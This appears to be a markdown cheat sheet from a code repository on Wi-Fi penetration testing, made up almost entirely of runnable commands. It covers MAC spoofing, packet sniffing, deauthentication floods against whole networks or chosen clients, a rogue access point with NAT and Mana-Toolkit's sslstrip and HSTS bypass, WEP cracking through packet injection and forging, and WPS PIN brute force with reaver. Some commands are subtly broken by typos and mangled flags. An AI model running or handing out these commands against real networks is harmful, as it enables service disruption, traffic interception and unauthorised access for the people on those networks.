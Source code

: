 # Wifi Penetration Testing

## Change MAC adress

```Bash
> ifconfig wlan0 down
> macchanger —random wlan0
> ifconfig wlan0 up
```

 Wifi card default mode is **“managed mode”** only capture data packets that contains it’s MAC address.

In **“monitor mode”** it captures every data packet in it’s wifi range

## Enable monitor mode

```Bash
> ifconfig wlan0 down
> airmon-ng start wlan0
##( Some times it does not work) || OR use ||
> iwconfig wlan0 mode monitor
```

## Packet sniffing

### To sniff all packets from all networks around you

```Bash
> airodump-ng mon0
## || OR ||
> airodump-ng wlan0 ## whateva the name of wlan in monitor mode
```

### To sniff all the packets from a specific network

```Bash
> airodump-ng —channel 2 —bssid 00:a2:23:23:43:53 —write out mon0
```

## De-authentication attacks practical

### To de-authenticate all clients in a specific network

```Bash
## aireplay-ng —deauth [number of packets] -a [AP] [interface]
> aireplay-ng —deauth 1000 -a 11:22:33:44:55:66 mon0
```

### To de-authenticate a specific client in a network

```Bash
## First we will run airodump-ng to see which devices (stations) are connected to this network.
> airodump-ng —channel 2 —bssid 00:a2:23:23:43:53 mon0

## aireplay-ng —deauth [number of packets] -a [AP] -c [target] [interface]
> aireplay-ng —deauth 1000 -a 11:22:33:44:55:66 -c 00:AA:22:33:44:55:66 mon0
```

## Creating Fake AP

```Bash
## install dns masq (Only do this once)
> apt-get install dnsmasq

## Edit dhcp configuration
> echo -e "interface=at0\ndhcp-range=192.168.0.50,192.168.0.150,12h" > /etc/dnsmasq.conf

## start fake ap
## airbase-ng -e [network name] -c [channel] interface
> airbase-ng -e fake-ap -c 6 mon0
> ifconfig at0 192.168.0.1 up

## Removing iptables rules
> iptables --flush
> iptables --table nat --flush
> iptables --delete-chain

## Enable packet forwarding in iptables
> iptables -P FORWARD ACCEPT

## link the wifi card and the card that's connected to the internet
> iptables -t nat -A POSTROUTING -o [internet interface] -j MASQUERADE

## start dnsmasq
> dnsmasq

## Enable ip forward
> echo "1" > /proc/sys/net/ipv4/ip_forward
```

## Creating fake access point using Mana-Toolkit

### It has 3 main scripts

1. **start-noupstream:** starts AP with NO internet connection.
1. **start-nat-simple:** starts a regular AP using internet connection in upstream interface.
1. **start-nat-full:** starts AP with internet connection, it also starts sslstrip, sslsplit, firelamp and attempts to bypass HTST. <kbd>_{{Sometimes this script is not working}}_</kbd>

```Bash
## install Mana-Toolkit
> apt-get install mana-toolkit

## Modify configuration files
> vim /etc/mana-toolkit/hostapd-karma.conf
> vim /usr/share/mana-toolkit/run-mana/start-nat-simple.sh

# run the script
> bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
```

## WEP Cracking

- WEP is an old encryption, but it's still used in some networks.
- It uses an algorithm called [RC4] where each packet is encrypted at the AP and then decrepted at the client.
- WEP insures that each packet has a unique key stream by using a random 24 bit _initialization vector [IV]_
- IV is contained in the packets as a plain text.
- The short IV means in a busy network we can collect more than two packets with the same IV, then we can use aircrack-ng to determine the key stream and the WEP key using statistical attacks.
- **Conclusion:** More IV's we captue, the more likely for us to crack the key.

### Simple WEP cracking (In case of a busy network with active users and high IV rate)

```Bash
## Run airodump-ng to log all traffic from the target network
## airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]
> airodump-ng --channel 6 --bssid 11:22:33:44:55:66 --write out mon0

## At the same time we shall use aircrack-ng to try and crack the capture file created by the above command
> aircrack-ng out-01.cap

## Keep both programs running at the same time and aircrack-ng will be able to determine the key when the number of IVs in out-01.cap is enough.
```

### Packet Injection

#### Fake authentication

```Bash
## aireplay-ng --fakeauth [number of packets] -a [target MAC] -h [your MAC] [interface]
>  aireplay-ng --fakeauth 0 -a 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 mon0
## Id this fake authentication was successful, The value under the "AUTH" column in airodump-ng will change to "OPN"
```

#### ARP request reply

```Bash
## aireplay-ng --arpreply -b [target MAC] -h [your MAC] [interfce]
> aireplay-ng --arpreply -b 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 mon0
```

#### Korek chop chop

```Bash
## 1. Capture the packet and determine it's key start-noupstream
## aireplay-ng --chopchop -b [target MAC] -h [your MAC] [interface]
> aireplay-ng --chopchop -b 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 mon0

## 2. Forge a new packet
## packetforge-ng -0 -a [target MAC] -h [your MAC] -k 255.255.255.255 -l 255.255.255.255 -y [output from last step.xor] - w [output]
> packetforge-ng -0 -a 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 -k 255.255.255.255 -l 255.255.255.255 -y 1122out.xor - w chop-out

## 3. Inject the forged packet into the traffic to generate new IV's
## aireplay-ng -2 -r [out from last step] [interface]
> aireplay-ng -2 -r chop-out mon0
```

#### Fragmentation attack

- The goal of this method is to obtain 1500 bytes of the PRGA (pseudo random generation algorithm), this can be used to forge a new oachet which can be injeted into the traffic to generate new IV's

```Bash
## 1. Obtain PRGA
## airplay-ng --fragment -b [target MAC] -h [your MAC] [interface]
> airplay-ng --fragment -b 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 mon0

## 2. Forge a new packet
## packetforge-ng -0 -a [target MAC] -h [your MAC] -k 255.255.255.255 -l 255.255.255.255 -y [output from last step.xor] - w [output]
> packetforge-ng -0 -a 00:AA:22:33:44:55:66 -h 00:11:22:33:44:55:66 -k 255.255.255.255 -l 255.255.255.255 -y 1122out.xor - w chop-out

## 3. Inject the forged packet into the traffic to generate new IV's
## aireplay-ng -2 -r [out from last step] [interface]
> aireplay-ng -2 -r chop-out mon0
```

## WPA / WPA2 Cracking

### WPS feature

- WPS allows users to connect to WPS enabled networks easily using WPS button on the router or by clicking on WPS functionality in router configuration.
- Authentication is done using **8 digit long pin**
- Using brute force we can guess the pin in < 10 hours.
- A tool called **reaver** can then recover the WPA/WPA2 key from this pin.

```Bash
## To scan for WPS enabed networks
> wash -i mon0 --ignore-fcs

## Start Cracking WPS pin with reaver
> reaver -b [target MAC] -c [channel] -i mon0
```
